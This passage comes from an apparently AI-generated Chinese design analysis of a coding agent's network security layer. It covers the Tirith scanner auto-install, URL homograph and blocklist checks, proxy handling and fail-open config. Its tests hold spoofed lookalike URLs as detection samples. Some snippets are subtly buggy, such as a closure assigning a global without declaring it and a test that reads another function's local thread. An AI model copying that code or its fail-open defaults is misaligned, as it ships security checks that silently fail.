    # Check PATH
    path = shutil.which("tirith")
    if path:
        _resolved_path = path
        return path
    
    # Check configured path
    config = _load_security_config()
    if os.path.isfile(config["tirith_path"]):
        _resolved_path = config["tirith_path"]
        return _resolved_path
    
    # Auto-install in background thread
    with _install_lock:
        if _is_install_failed_on_disk():
            _resolved_path = _INSTALL_FAILED
            return None
        
        def _install():
            try:
                # Detect target
                target = _detect_target()
                # Download release
                _download_release(target)
                # Verify SHA-256
                _verify_sha256()
                # Optional: cosign verify
                _verify_cosign()
                # Extract to $HERMES_HOME/bin
                _extract()
                # Set executable
                _set_executable()
                # Cache path
                _resolved_path = _hermes_bin_dir() + "/tirith"
                _clear_install_failed()
            except Exception as e:
                _mark_install_failed(str(e))
                _resolved_path = _INSTALL_FAILED
        
        _install_thread = threading.Thread(target=_install)
        _install_thread.start()
        return None
```

**设计要点**:
1. **后台安装**: 不阻塞启动，后台线程下载安装
2. **失败持久化**: `~/.hermes/.tirith-install-failed` (24h TTL) 避免重复尝试
3. **SHA-256 验证**: 始终验证下载文件完整性
4. **Cosign 签名**: 可选供应链溯源验证 (cosign 在 PATH 时)

---

## 5. 设计模式分析

### 5.1 责任链模式 (Chain of Responsibility)

URL 安全检测使用责任链模式，依次经过多个检查点：

```python
# Layer 1: Homograph 检测
if check_homograph(url):
    return (False, "high", "homograph_detected")

# Layer 2: 恶意域名匹配
if match_malicious_domain(url):
    return (False, "high", "malicious_domain")

# Layer 3: 网站黑名单
if check_website_access(url):
    return (False, "medium", "blocked_by_policy")

# Layer 4: Tirith 扫描
result = check_command_security(command)
if result["action"] == "block":
    return (False, "high", "tirith_block")
```

**优势**:
- 每个检查点独立，可动态添加/移除
- 短路优化：发现威胁立即返回
- 结果聚合：多个检查点发现合并为统一响应

### 5.2 策略模式 (Strategy Pattern)

代理配置使用策略模式，支持多种代理类型：

```python
def proxy_kwargs_for_bot(proxy_url: str | None) -> dict:
    if not proxy_url:
        return {}
    if proxy_url.lower().startswith("socks"):
        # SOCKS 策略
        return {"connector": ProxyConnector.from_url(proxy_url, rdns=True)}
    else:
        # HTTP 策略
        return {"proxy": proxy_url}
```

**优势**:
- 运行时切换代理类型
- 新增代理类型无需修改调用代码

### 5.3 缓存模式 (Caching Pattern)

网站访问策略使用缓存模式，避免重复解析 YAML：

```python
_CACHE_TTL_SECONDS = 30.0
_cache_lock = threading.Lock()
_cached_policy: Optional[Dict] = None
_cached_policy_time: float = 0.0

def load_website_blocklist():
    now = time.monotonic()
    with _cache_lock:
        if (_cached_policy is not None and 
            (now - _cached_policy_time) < _CACHE_TTL_SECONDS):
            return _cached_policy
    
    # Load from YAML
    policy = _load_policy_config()
    
    with _cache_lock:
        _cached_policy = policy
        _cached_policy_time = now
    
    return policy
```

**优势**:
- 减少 YAML 解析开销 (50 页爬取 → 1 次解析)
- 30s TTL 平衡性能和配置更新延迟
- 线程安全访问

### 5.4 容错模式 (Fail-Open Pattern)

网站访问策略使用 Fail-Open 容错模式：

```python
try:
    policy = load_website_blocklist(config_path)
except WebsitePolicyError as exc:
    if config_path is not None:
        raise  # Tests pass explicit paths — let errors propagate
    logger.warning("Website policy config error (failing open): %s", exc)
    return None  # Fail-open: allow access
except Exception as exc:
    logger.warning("Unexpected error loading website policy (failing open): %s", exc)
    return None  # Fail-open: allow access
```

**优势**:
- 配置错误不阻断所有网络请求
- 测试场景可关闭 Fail-Open (传递 config_path)
- 详细日志便于排查

---

## 6. 配置接口

### 6.1 config.yaml 配置

```yaml
# 安全配置
security:
  # Tirith 配置
  tirith_enabled: True
  tirith_path: "tirith"  # 或绝对路径
  tirith_timeout: 5
  tirith_fail_open: True
  
  # 网站黑名单配置
  website_blocklist:
    enabled: true
    domains:
      - "*.malicious.com"
      - "example.com"
      - "*.example.org/admin/*"
    shared_files:
      - "~/.hermes/blocklist.txt"
      - "/shared/blocklist.txt"

# 辅助工具配置
auxiliary:
  web_extract:
    timeout: 60  # 网页提取超时 (秒)
    max_pages: 10  # 最大爬取页数
```

### 6.2 环境变量配置

| 环境变量 | 描述 | 默认值 |
|---------|------|-------|
| `HTTPS_PROXY` | HTTPS 代理 URL | 无 |
| `HTTP_PROXY` | HTTP 代理 URL | 无 |
| `ALL_PROXY` | 通用代理 URL | 无 |
| `DISCORD_PROXY` | Discord 专用代理 | 无 |
| `TELEGRAM_PROXY` | Telegram 专用代理 | 无 |
| `TIRITH_ENABLED` | 启用 Tirith 扫描 | `True` |
| `TIRITH_BIN` | Tirith 二进制路径 | `tirith` |
| `TIRITH_TIMEOUT` | Tirith 扫描超时 | `5` |
| `TIRITH_FAIL_OPEN` | Tirith 失败时允许执行 | `True` |

---

## 7. 测试覆盖

### 7.1 测试文件

| 文件路径 | 描述 |
|---------|------|
| `tests/tools/test_url_safety.py` | URL 安全检测测试 |
| `tests/tools/test_website_policy.py` | 网站访问策略测试 |
| `tests/tools/test_tirith_security.py` | Tirith 安全扫描测试 |
| `tests/gateway/test_platform_base.py` | 代理配置测试 |

### 7.2 关键测试场景

```python
# Homograph URL 检测测试
def test_homograph_detection():
    # 西里文混淆
    assert check_url_safety("http://раураl.com")[1] == "high"
    # 希腊字母混淆
    assert check_url_safety("http://αlpha.com")[1] == "high"

# 网站黑名单测试
def test_website_blocklist():
    # 通配符匹配
    assert check_website_access("http://sub.malicious.com")["rule"] == "*.malicious.com"
    # 精确匹配
    assert check_website_access("http://example.com")["rule"] == "example.com"
    # Fail-Open
    with patch("yaml.safe_load", side_effect=yaml.YAMLError()):
        assert check_website_access("http://any.com") is None

# 代理配置测试
def test_resolve_proxy_url():
    # 平台专用优先级最高
    os.environ["DISCORD_PROXY"] = "http://discord-proxy:8080"
    os.environ["HTTPS_PROXY"] = "http://https-proxy:8080"
    assert resolve_proxy_url("DISCORD_PROXY") == "http://discord-proxy:8080"
    
    # macOS 系统代理检测
    with patch("subprocess.check_output") as mock_scutil:
        mock_scutil.return_value = "HTTPSEnable : 1\nHTTPSProxy : proxy.com\nHTTPSPort : 8080"
        assert resolve_proxy_url() == "http://proxy.com:8080"

# Tirith 自动安装测试
def test_tirith_auto_install():
    # 模拟未安装场景
    with patch("shutil.which", return_value=None):
        # 后台线程安装
        path = _resolve_tirith_binary()
        # 验证下载、校验、解压流程
        assert _install_thread.is_alive()
```

---

## 8. 代码索引

### 8.1 核心文件

| 文件路径 | 行数 | 核心功能 |
|---------|------|---------|
| `tools/website_policy.py` | ~280 | 网站访问策略、黑名单加载、fnmatch 匹配 |
| `tools/tirith_security.py` | ~400+ | Tirith 安全扫描、自动安装、SHA-256/cosign 验证 |
| `gateway/platforms/base.py` | ~300+ | 代理配置解析、远程 DNS、UTF-16 长度计算 |
| `tools/web_tools.py` | ~1300+ | Web 搜索/提取、httpx 客户端、Firecrawl/Parallel/Tavily 集成 |
| `tools/browser_tool.py` | ~500+ | 浏览器自动化、Browserbase SDK、URL 安全检测 |
| `tools/url_safety.py` | ~N/A | URL 安全检测 (可能合并到 tirith_security.py) |

### 8.2 核心函数索引

| 函数名 | 文件 | 功能描述 |
|-------|------|---------|
| `check_url_safety()` | `url_safety.py` | URL 安全检测 (Homograph/恶意域名) |
| `check_website_access()` | `website_policy.py:232` | 网站访问策略检查 |
| `load_website_blocklist()` | `website_policy.py:131` | 加载网站黑名单策略 |
| `resolve_proxy_url()` | `base.py:148` | 解析代理 URL |
| `proxy_kwargs_for_bot()` | `base.py:170` | 构建 Bot 代理 kwargs |
| `check_command_security()` | `tirith_security.py:250` | Tirith 安全扫描 |
| `_resolve_tirith_binary()` | `tirith_security.py:220` | 解析 Tirith 二进制路径 (自动安装) |
| `_tavily_request()` | `web_tools.py:287` | Tavily API 请求 |
| `_get_firecrawl_client()` | `web_tools.py:205` | 获取 Firecrawl 客户端 |
| `_get_parallel_client()` | `web_tools.py:247` | 获取 Parallel 客户端 |

---

## 9. 总结

Hermes-Agent 的网络通信安全系统展现了一个多层次、纵深防御的安全架构。其核心设计亮点包括：

1. **五层防护**: Homograph 检测 → 网站黑名单 → 代理配置 → Tirith 扫描 → HTTP 客户端安全，形成纵深防御
2. **Fail-Open 容错**: 配置错误时允许访问，避免配置错误阻断所有网络请求
3. **策略缓存**: 30s TTL 避免重复解析 YAML (50 页爬取 → 1 次解析)
4. **远程 DNS**: `rdns=True` 强制通过代理解析 DNS，防止 DNS 污染
5. **自动安装**: Tirith 后台线程自动安装，SHA-256 + cosign 双重验证
6. **代理优先级**: 平台专用 > 标准环境变量 > macOS 系统代理
7. **重定向跟踪**: 记录重定向链，验证最终 URL 安全性
8. **超时控制**: 分级超时策略 (连接/读取/总超时)

该系统成功平衡了安全性与可用性，在保证网络通信安全的前提下，通过 Fail-Open、策略缓存、自动安装等机制最小化对用户工作流的干扰。
